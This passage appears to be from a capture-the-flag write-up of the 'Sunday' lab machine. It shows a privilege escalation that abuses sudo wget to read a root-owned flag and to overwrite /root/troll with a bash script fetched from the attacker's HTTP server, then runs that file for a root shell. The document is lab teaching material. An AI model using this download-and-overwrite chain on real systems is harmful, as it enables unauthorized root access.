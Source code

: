 Now we can view the user.txt flag.

![](../img/Sunday Writeup wo Metasploit/1_sNjl25x8PcsO0dq8WhPS2Q.png)

Let’s try to escalate to root privileges. Run the sudo command again to view the list of allowed commands the user can run as root.

```
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

We can run wget with root privileges! If you’re familiar with the “-i” flag in wget, you’ll know that we can use it to output the content of files. Therefore, we can run the following command to get the root flag.

```
sudo wget -i /root/root.txt
```

However, in this scenario we’re simply reading the content of the flag and not really escalating privileges. To get a root shell we need to chain the following two vulnerabilities:

1. The user Sunny can execute the /root/troll file with root privileges, and

1. The user Sammy can overwrite any root owned file using the wget command.

Therefore, we’ll use Sammy’s sudo privileges to overwrite the /root/troll file and include a shell in it. Then we’ll use Sunny’s sudo privileges to run the /root/troll file and convert our shell to a root shell.

Alright, let’s do this! In the attack machine, create a file called “troll” and add the following code to it.

```
#!/usr/bin/bash

bash
```

Then start up a simple Python server in the directory the file is in.

```
python -m SimpleHTTPServer 5555
```

Go back the target machine running with the Sammy user privileges, and run the wget command to overwrite the /root/troll file.

```
sudo wget -O /root/troll [http://10.10.14.12:5555/troll](http://10.10.14.12:5555/troll)
```

In another SSH session running with the Sunny user privileges, execute the troll file.

```
sudo /root/troll
```

Since we added a bash shell in the troll file and the troll file is being executed with root privilege, we get a root shell!
